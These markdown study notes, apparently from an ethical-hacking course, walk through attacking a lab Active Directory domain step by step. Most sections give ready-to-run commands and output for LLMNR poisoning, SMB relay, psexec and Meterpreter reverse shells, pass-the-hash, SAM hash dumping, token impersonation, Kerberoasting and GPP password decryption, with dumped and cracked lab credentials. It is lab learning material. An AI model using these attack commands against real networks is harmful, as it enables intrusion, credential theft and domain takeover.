

# Attacking Active Directory

## LLMNR Poisoning

### Responder

- [Impacket](https://github.com/SecureAuthCorp/impacket): tool to abuse LLMNR:  
Best to run first thing in the morning  
```responder -I eth0 -rdwv```
And when there will be activity in the network we will be able to get hashes

### Hascat

- We use hashcat to crack the hashes we got previously
- When looking for a module in hascat we can grep on the hash we need:
```hashcat --help | grep NTLM```
- Command
```hashcat -m 5600 ntlmhash.txt /usr/share/wordlists/rockyou.txt```

## SMB Relay Attacks

### Discovering hosts
- Possible with [Nessus](https://www.tenable.com/products/nessus)
- With [Nmap](https://nmap.org/)
```nmap --script=smb2-security-mode.nse -p445 10.0.2.0/24```
Example of what we get with this scan:
```
┌──(root💀kali)-[/home/kali]
└─# nmap --script=smb2-security-mode.nse -p445 10.0.2.0/24    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-29 16:36 EST
[STRIPPED]

Nmap scan report for 10.0.2.4
Host is up (0.00062s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 08:00:27:FC:72:E9 (Oracle VirtualBox virtual NIC)

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required

Nmap scan report for 10.0.2.5
Host is up (0.00052s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 08:00:27:7F:90:90 (Oracle VirtualBox virtual NIC)

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required

Nmap scan report for 10.0.2.15
Host is up (0.00059s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 08:00:27:AE:C1:68 (Oracle VirtualBox virtual NIC)

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required

[STRIPPED]

Nmap done: 256 IP addresses (5 hosts up) scanned in 28.67 seconds
```
The domain controller has `enable` and `required`, we wont relay on this machine.

### Attack 1st way

- In responder config (Responder.conf) we put http and smb on off
- Responder command
```responder -I eth0 -rdwv```
- Launch ntlmrelayx.py (our target ips are in targets.txt)
```ntlmrelayx.py -tf targets.txt -smb2support```
- We should get som hashes on our kali
```
[*] Done dumping SAM hashes for host: 10.0.2.4
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:25e61d7e5702c678e3be8711c03b7837:::
Jessica Jones:1001:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
```

### Attack 2nd way

- We launch Responder (with http and smb off), we launch ntlmrelayx.py just like befor but with -i to try to get an interactive shell.
```ntlmrelayx.py -tf targets.txt -smb2support -i```

- It should work and mention that we got a shell
```
[*] Servers started, waiting for connections
[*] SMBD-Thread-3: Received connection from 10.0.2.15, attacking target smb://10.0.2.4
[*] Authenticating against smb://10.0.2.4 as MARVEL\fcastle SUCCEED
[*] Started interactive SMB client shell via TCP on 127.0.0.1:11000
[STRIPPED]
```

- We can netcat to get the shell:
```nc 127.0.0.1 11000```
- We have an smb shell:
```
└─# nc 127.0.0.1 11000                                        
Type help for list of commands
# help

open {host,port=445} - opens a SMB connection against the target host/port
login {domain/username,passwd} - logs into the current SMB connection, no parameters for NULL connection. If no password specified, it'll be prompted
kerberos_login {domain/username,passwd} - logs into the current SMB connection using Kerberos. If no password specified, it'll be prompted. Use the DNS resolvable domain name
login_hash {domain/username,lmhash:nthash} - logs into the current SMB connection using the password hashes
logoff - logs off
shares - list available shares
use {sharename} - connect to an specific share
cd {path} - changes the current directory to {path}
lcd {path} - changes the current local directory to {path}
pwd - shows current remote directory
password - changes the user password, the new password will be prompted for input
ls {wildcard} - lists all the files in the current directory
rm {file} - removes the selected file
mkdir {dirname} - creates the directory under the current path
rmdir {dirname} - removes the directory under the current path
put {filename} - uploads the filename into the current path
get {filename} - downloads the filename from the current path
mount {target,path} - creates a mount point from {path} to {target} (admin required)
umount {path} - removes the mount point at {path} without deleting the directory (admin required)
info - returns NetrServerInfo main results
who - returns the sessions currently connected at the target host (admin required)
close - closes the current SMB Session
exit - terminates the server process (and this session)
# shares
ADMIN$
C$
IPC$
Share
# use C$
# ls
drw-rw-rw-          0  Fri Jan 28 19:29:18 2022 $Recycle.Bin
drw-rw-rw-          0  Fri Jan 28 20:21:23 2022 Documents and Settings
-rw-rw-rw-       8192  Sat Jan 29 16:14:20 2022 DumpStack.log.tmp
-rw-rw-rw- 1543503872  Sat Jan 29 16:14:20 2022 pagefile.sys
drw-rw-rw-          0  Fri Jan 28 20:18:41 2022 PerfLogs
drw-rw-rw-          0  Fri Jan 28 17:29:12 2022 Program Files
drw-rw-rw-          0  Fri Jan 28 20:18:41 2022 Program Files (x86)
drw-rw-rw-          0  Fri Jan 28 19:26:15 2022 ProgramData
drw-rw-rw-          0  Fri Jan 28 20:21:29 2022 Recovery
drw-rw-rw-          0  Fri Jan 28 19:33:38 2022 Share
-rw-rw-rw-  268435456  Sat Jan 29 16:14:20 2022 swapfile.sys
drw-rw-rw-          0  Fri Jan 28 17:21:44 2022 System Volume Information
drw-rw-rw-          0  Fri Jan 28 19:28:21 2022 Users
drw-rw-rw-          0  Fri Jan 28 17:23:30 2022 Windows
#
```
*Note: ntlmrelayx.py is really powerfull and has many commands, we could even launch other shells.*

## Shell Access

### SMB - PSExec

#### With Metasploit

```msfconsole```
- we can seach psexec or type:
```use exploit/windows/smb/psexec```
```show options```
- We need to set rhosts, lhost, smbdomain, smbpass and smbuser
- We also need to set the payload depending on our target for instance `windows/x64/meterpreter/reverse_tcp`
- We should get a shell
```
[*] Started reverse TCP handler on 10.0.2.8:4444 
[*] 10.0.2.4:445 - Connecting to the server...
[*] 10.0.2.4:445 - Authenticating to 10.0.2.4:445|marvel.local as user 'fcastle'...
[*] 10.0.2.4:445 - Selecting PowerShell target
[*] 10.0.2.4:445 - Executing the payload...
[+] 10.0.2.4:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (200262 bytes) to 10.0.2.4
[*] Meterpreter session 1 opened (10.0.2.8:4444 -> 10.0.2.4:51468 ) at 2022-02-04 10:28:51 -0500

meterpreter > 
```
#### With Impacket - psexec.py

Can be useful if meterprer is picked up by AV.
```
┌──(kali㉿kali)-[~]
└─$ psexec.py marvel.local/fcastle:Password1@10.0.2.4                                                                                                                                                                                    1 ⨯
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.0.2.4.....
[*] Found writable share ADMIN$
[*] Uploading file OKJXcwkr.exe
[*] Opening SVCManager on 10.0.2.4.....
[*] Creating service tDbW on 10.0.2.4.....
[*] Starting service tDbW.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19044.1288]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
- We can also try with: wmbexec.py or wmiexec.py (same command except for name of the script of course)

##  IPv6 Attacks

There's no dns for IPv6 (only for IPv4) so we can spoof it with mitm6

### Mitm6

- Fetch it [here](https://github.com/dirkjanm/mitm6)
- mitm6 command
```mitm6 -d domain-name.local```
- ntlmrelay
```ntlmrelayx.py -6 -t ldaps://DOMAIN-CONTROLLER-IP -wh fakewpad.domain.local -l lootme```
- Once the attack is successful we get a folder lootme with plenty of info from the DC
- If during the attack and admin logs in win 10 machine, mitm6 will create a new user for us:
```[*] Adding new user with username: YrAjkDnwzM and password: SHq]d(88dr%5+3R result: OK```

#### Mitm6 - Resources

- [Mitm6](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
- [Combining NTLM Relaying and Kerberos delegation](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)

## Passback Attacks

- [A Pen Tester’s Guide to Printer Hacking](https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/)

## Post-Compromise Enumeration

- We compromised a user what can we do with it
- How can we get Domain Admin

### Powerview

- Get it from [here](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1) and put it in the compromised machine
- From a cmd in the target: `powershell -ep bypass` 
- Launch Powerview: `. .\powerview.ps1`
- Get info on the Domain Controller: `Get-NetDomain`
- Check policies: `Get-DomainPolicy`
- Policies in System Access: `(Get-DomainPolicy)."systemAccess"` (e.g.: we get info about password policy and minimum length so min size if we want to password spray)
- Info about the users `Get-NetUser`
- Get only usenames `Get-NetUser | select cn` (e.g.: will output Jessica Jones)
- Get only sam account name: `Get-NetUser | select samaccountname` (e.g.: will output jjones)
- Get only description: `Get-NetUser | select description` (e.g.: will output a description if provided by sysadmn or a default one)
- See all the properties a user have: `Get-UserProperty`
- Get more details for example password last set: `Get-UserProperty -Properties pwdlastset`
- Get more details for example logoncount: `Get-UserProperty -Properties logoncount`
- See if users have entered bad passwd: `Get-UserProperty -Properties badpwdcount`
- List all the computers in the Domain: `Get-NetComputer`
- Same but with much more info: `Get-NetComputer -FullData`
- Filter this load of data with specific info: `Get-NetComputer -FullData | select OperatingSystem`
- Get info on groups: `Get-NetGroup`
- Filter for a specific GroupName: `Get-NetGroup -GroupName "Domain Admins" `
- Filter on GroupName with a wildcard: `Get-NetGroup -GroupName *admin* `
- Get users from a specific group: `Get-NetGroup -GroupName "Domain Admins" `
- Get smb shared in the network: `Invoke-ShareFinder`
- Get group policies: `Get-NetGPO`
- Filter the info: `Get-NetGroup -GroupName "Domain Admins" `

#### Powerview - Resources

- [PowerView Cheat Sheet](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

### BloodHound

#### Setup and Install

- Install: `sudo apt install bloodhound`
- Launch neo4j for Setup: `neo4j console`
- Open the link provided by neo4j, connect with default creds: `neo4j:neo4j` 
- Change the password
- From the console launch `bloodhound`
- Connect with the creds you just set up in neo4j

#### Grabbing Data to feed Bloodhound

- Download and setup an injector for instance invoke-bloodhound for powershell, we can use [sharphound](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1)
- Put Sharphound in your target machine
- From the cmd of your target run: `powershell -ep bypass`
- Run Sharphound: `. .\SharpHound.ps1`
- Now we can invoke-bloodhound to collect data: `Invoke-BloodHound -CollectionMethod All -Domain DOMAIN.local -ZipFilename data.zip`
- Copy the zip file in your attacking machine
- Click on upload data and double click on the zip file
- In Analysis we can now click to Find all Domains
- We can also find the shortest path to the domain admins
- We want to find boxes where a domain admin is logged in.

## Post-Compromise Attacks

### Pass the hash

#### CrackMapExec
- Install: `sudo apt install crackmapexec`
- Pass the password on the domain: `crackmapexec smb 10.0.2.0/24 -u fcastle -d DOMAIN.local -p Password1` If the password is the same for another machine in the network we will get ownership on this new machine too
```
┌──(root💀kali)-[~kali]
└─# crackmapexec smb 10.0.2.0/24 -u fcastle -d MARVEL.local -p Password1
SMB         10.0.2.5        445    HYDRA-DC         [*] Windows 10.0 Build 17763 x64 (name:HYDRA-DC) (domain:MARVEL.local) (signing:True) (SMBv1:False)
SMB         10.0.2.4        445    THEDEFENDER      [*] Windows 10.0 Build 19041 x64 (name:THEDEFENDER) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         10.0.2.15       445    THEPUNISHER      [*] Windows 10.0 Build 19041 x64 (name:THEPUNISHER) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         10.0.2.5        445    HYDRA-DC         [+] MARVEL.local\fcastle:Password1 
SMB         10.0.2.4        445    THEDEFENDER      [+] MARVEL.local\fcastle:Password1 (Pwn3d!)
SMB         10.0.2.15       445    THEPUNISHER      [+] MARVEL.local\fcastle:Password1 (Pwn3d!)
```
- We can also add --sam to the previous command to dump the sam file here we got 5 sam hashes
```
┌──(root💀kali)-[~kali]
└─# crackmapexec smb 10.0.2.0/24 -u fcastle -d MARVEL.local -p Password1 --sam
SMB         10.0.2.15       445    THEPUNISHER      [*] Windows 10.0 Build 19041 x64 (name:THEPUNISHER) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         10.0.2.5        445    HYDRA-DC         [*] Windows 10.0 Build 17763 x64 (name:HYDRA-DC) (domain:MARVEL.local) (signing:True) (SMBv1:False)
SMB         10.0.2.4        445    THEDEFENDER      [*] Windows 10.0 Build 19041 x64 (name:THEDEFENDER) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         10.0.2.15       445    THEPUNISHER      [+] MARVEL.local\fcastle:Password1 (Pwn3d!)
SMB         10.0.2.5        445    HYDRA-DC         [+] MARVEL.local\fcastle:Password1 
SMB         10.0.2.4        445    THEDEFENDER      [+] MARVEL.local\fcastle:Password1 (Pwn3d!)
SMB         10.0.2.15       445    THEPUNISHER      [+] Dumping SAM hashes
SMB         10.0.2.4        445    THEDEFENDER      [+] Dumping SAM hashes
SMB         10.0.2.15       445    THEPUNISHER      Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.0.2.4        445    THEDEFENDER      Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.0.2.15       445    THEPUNISHER      Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.0.2.4        445    THEDEFENDER      Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.0.2.15       445    THEPUNISHER      DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.0.2.4        445    THEDEFENDER      DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.0.2.15       445    THEPUNISHER      WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e6cedee56d27d175f48042b53cb6b242:::
SMB         10.0.2.15       445    THEPUNISHER      Frank Castle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
SMB         10.0.2.15       445    THEPUNISHER      [+] Added 5 SAM hashes to the database
SMB         10.0.2.4        445    THEDEFENDER      WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:25e61d7e5702c678e3be8711c03b7837:::
SMB         10.0.2.4        445    THEDEFENDER      Jessica Jones:1001:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
SMB         10.0.2.4        445    THEDEFENDER      [+] Added 5 SAM hashes to the database
```

#### psexec
We can also use psexec to try to get a shell on the other machine
```
┌──(root💀kali)-[~kali]
└─# psexec.py marvel/fcastle:Password1@10.0.2.4
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.0.2.4.....
[*] Found writable share ADMIN$
[*] Uploading file IEoFnNEZ.exe
[*] Opening SVCManager on 10.0.2.4.....
[*] Creating service YXVX on 10.0.2.4.....
[*] Starting service YXVX.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19044.1288]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>hostname
THEDEFENDER
```
### Dumping Hashes

#### Impacket - Secretsdump.py
- We can dump hashes from our compromised machines in the network
```
┌──(root💀kali)-[~kali]
└─# secretsdump.py marvel/fcastle:Password1@10.0.2.15
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xfafe40d7e147c04806fe29ef03e04386
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e6cedee56d27d175f48042b53cb6b242:::
Frank Castle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[STRIPPED]
```

### Crack NTLM hashes

#### Hashcat
```
┌──(root💀kali)-[~kali]
└─# hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.1.1) starting...

[STRIPPED]

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

64f12cddaa88057e06a81b54e73b949b:Password1       
31d6cfe0d16ae931b73c59d7e0c089c0:                
c39f2beb3d2ec06a62cb887fb391dee0:Password2       
[STRIPPED]
```

### Pass the Hash Attack

*Note: ntlmv1 can be passed but ntlmv2 can not.*

#### Crackmapexec

To pass the hash in the following line we will only need the last part after the last semicolon (only the NTHash):  
Here is the structure of the hash: `User Name:ID:LMHASH:NTHASH:::`
With this: `Frank Castle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::`  
We will use this: `64f12cddaa88057e06a81b54e73b949b`  
We will then use this command:
```
crackmapexec smb 10.0.2.0/24 -u "Frank Castle" -H 64f12cddaa88057e06a81b54e73b949b --local-auth
```
We would get something like this:
```
SMB         10.0.2.15       445    THEPUNISHER      [*] Windows 10.0 Build 19041 x64 (name:THEPUNISHER) (domain:THEPUNISHER) (signing:False) (SMBv1:False)
SMB         10.0.2.5        445    HYDRA-DC         [*] Windows 10.0 Build 17763 x64 (name:HYDRA-DC) (domain:HYDRA-DC) (signing:True) (SMBv1:False)
SMB         10.0.2.4        445    THEDEFENDER      [*] Windows 10.0 Build 19041 x64 (name:THEDEFENDER) (domain:THEDEFENDER) (signing:False) (SMBv1:False)
SMB         10.0.2.15       445    THEPUNISHER      [+] THEPUNISHER\Frank Castle 64f12cddaa88057e06a81b54e73b949b 
SMB         10.0.2.5        445    HYDRA-DC         [-] HYDRA-DC\Frank Castle:64f12cddaa88057e06a81b54e73b949b STATUS_LOGON_FAILURE 
SMB         10.0.2.4        445    THEDEFENDER      [-] THEDEFENDER\Frank Castle:64f12cddaa88057e06a81b54e73b949b STATUS_LOGON_FAILURE 
```

#### PSexec

We can use the same attack with psexec to get a shell except we will be using the full hash 
For this `Frank Castle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::`
We will use this: `aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b`  
```
┌──(root💀kali)-[~kali]
└─# psexec.py marvel/fcastle@10.0.2.15 -hashes aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.0.2.15.....
[*] Found writable share ADMIN$
[*] Uploading file fQsiaobC.exe
[*] Opening SVCManager on 10.0.2.15.....
[*] Creating service OnEf on 10.0.2.15.....
[*] Starting service OnEf.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19044.1288]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

## Token Impersonation

- Launch Metasploit `msfconsole`
- Choose the exploit: `use exploit/windows/smb/psexec`
- Set: rhosts, smbdomain, smbpass, smbuser, target (we can use `show targets` to have a list), payload
- Launch the attack: `run`
- We get a shell:
  ```
  msf6 exploit(windows/smb/psexec) > run

  [*] Started reverse TCP handler on 10.0.2.8:4444 
  [*] 10.0.2.15:445 - Connecting to the server...
  [*] 10.0.2.15:445 - Authenticating to 10.0.2.15:445|marvel.local as user 'fcastle'...
  [!] 10.0.2.15:445 - peer_native_os is only available with SMB1 (current version: SMB3)
  [*] 10.0.2.15:445 - Uploading payload... oeyrkyrs.exe
  [*] 10.0.2.15:445 - Created \oeyrkyrs.exe...
  [*] Sending stage (200262 bytes) to 10.0.2.15
  [+] 10.0.2.15:445 - Service started successfully...
  [*] 10.0.2.15:445 - Deleting \oeyrkyrs.exe...
  [*] Meterpreter session 1 opened (10.0.2.8:4444 -> 10.0.2.15:61871 ) at 2022-02-11 13:49:12 -0500

  meterpreter > 
  ```
- Getting hashes: `hashdump`
  ```
  meterpreter > hashdump
  Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  Frank Castle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e6cedee56d27d175f48042b53cb6b242:::
  ```
- Use tools: `load` (double tab to get the list of tools)
- `load incognito`
  ```
  Incognito Commands
  ==================

      Command              Description
      -------              -----------
      add_group_user       Attempt to add a user to a global group with all tokens
      add_localgroup_user  Attempt to add a user to a local group with all tokens
      add_user             Attempt to add a user with all tokens
      impersonate_token    Impersonate specified token
      list_tokens          List tokens available under current user context
      snarf_hashes         Snarf challenge/response hashes for every token
  ```
- list_tokens -u
  ```
  meterpreter > list_tokens -u

  Delegation Tokens Available
  ========================================
  Font Driver Host\UMFD-0
  Font Driver Host\UMFD-1
  Font Driver Host\UMFD-2
  MARVEL\Administrator
  MARVEL\fcastle
  NT AUTHORITY\LOCAL SERVICE
  NT AUTHORITY\NETWORK SERVICE
  NT AUTHORITY\SYSTEM
  Window Manager\DWM-1
  Window Manager\DWM-2

  Impersonation Tokens Available
  ========================================
  No tokens available
  ```
- Impersonate Administrator: 
  ```
  meterpreter > impersonate_token marvel\\administrator
  [+] Delegation token available
  [+] Successfully impersonated user MARVEL\Administrator
  meterpreter > shell
  Process 8576 created.
  Channel 1 created.
  Microsoft Windows [Version 10.0.19044.1288]
  (c) Microsoft Corporation. All rights reserved.
  C:\Windows\system32>whoami
  whoami
  marvel\administrator
  ```
- If we hashdump again it will not work so we can rev2self to get back to the initial user
- Any user that has logged in the target will have a token there until the target reboots
 
## Kerberoasting

- Any valid user gets a ticket with kerberos to access a service (SQL for instance)
- Tool: GetUsersSPNS.py - Impacket
- Get a hash using the tool
  ```
  ┌──(root💀kali)-[~kali]
  └─# GetUserSPNs.py marvel.local/fcastle:Password1 -dc-ip 10.0.2.5 -request
  /usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

  ServicePrincipalName                    Name        MemberOf                                                     PasswordLastSet      LastLogon 
  --------------------------------------  ----------  -----------------------------------------------------------  -------------------  ---------
  HYDRA-DC/SQLService.MARVEL.local:60111  SQLService  CN=Group Policy Creator Owners,OU=Groups,DC=MARVEL,DC=local  2022-01-28 17:55:04  <never>   

  $krb5tgs$23$*SQLService$MARVEL.LOCAL$HYDRA-DC/SQLService.MARVEL.local~60111*$eb60bb[STRIPPED]7e35f1a787901409e16bc
  ```
- Finding the proper module in hashcat `hashcat --help | grep Kerberos`
  ```
  ┌──(root💀kali)-[~/active-directory]
  └─# hashcat --help | grep Kerberos
     7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth            | Network Protocols
    13100 | Kerberos 5, etype 23, TGS-REP                    | Network Protocols
    18200 | Kerberos 5, etype 23, AS-REP                     | Network Protocols
    19600 | Kerberos 5, etype 17, TGS-REP                    | Network Protocols
    19700 | Kerberos 5, etype 18, TGS-REP                    | Network Protocols
    19800 | Kerberos 5, etype 17, Pre-Auth                   | Network Protocols
    19900 | Kerberos 5, etype 18, Pre-Auth                   | Network Protocols
  ```
- We need TGS which is 13100
- Crack the hash with hachcat
  ```
  ┌──(root💀kali)-[~/active-directory]
  └─# hashcat -m 13100 hashkerb.txt /usr/share/wordlists/rockyou.txt -O 
  ```
- We get the password
  ```
  $krb5tgs$23$*SQLService$MARVEL.LOCAL$HYDRA-DC/SQLService.MARVEL.local~60111*$eb6[STRIPPED]6bc:MYpassword123#
  ```

## GPP / cPassword Attacks Overview - MS14-025

- GPP will keep passwords in an XML file
- Works with smb
- If we find a 334 open we can try to login anonymously
  *Example from HTB - Active - Retired Machine*
- Tips: `prompt off` (will not prompt when dl file) and `recurse on` (will list everything)
    ```
    ┌──(kali㉿kali)-[~]
    └─$ smbclient \\\\10.10.10.100\\Replication
    Enter WORKGROUP\kali's password: 
    Anonymous login successful
    Try "help" to get a list of possible commands.
    smb: \> dir
      .                                   D        0  Sat Jul 21 06:37:44 2018
      ..                                  D        0  Sat Jul 21 06:37:44 2018
      active.htb                          D        0  Sat Jul 21 06:37:44 2018

                    5217023 blocks of size 4096. 260455 blocks available
    smb: \> prompt off
    smb: \> 
    ```
- We can get all the file using `mget *`
- We are interested in the group.xml file which has been downloaded in `active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/`  
  
- We can just copy cpassword and carckit using gpp-decrypt: ` gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`
  And we get the password: `GPPstillStandingStrong2k18`
  

### GPP - Resources

- [Group Policy Pwnage](https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/)


## Quick Recap

- Useful tool to install in kali is [pimpmykali](https://github.com/Dewalt-arch/pimpmykali)
- First thing to do is launch responder (along with scans to generate traffic)
- LLMNR Poisoning
- SMB Relay Attack
- Look for websites in scope
- Check for default credentials (printers, tomcat, jenkins,...)
- Compromise a machine (as many as possible with lateral movement)
- Enumerate with tools for post-compromise attack
- Get Domain Admin

## Resources

- [TCM-Security Academy](https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course)
- [Top Five Ways I Got Domain Admin - Adam Toscher](https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)
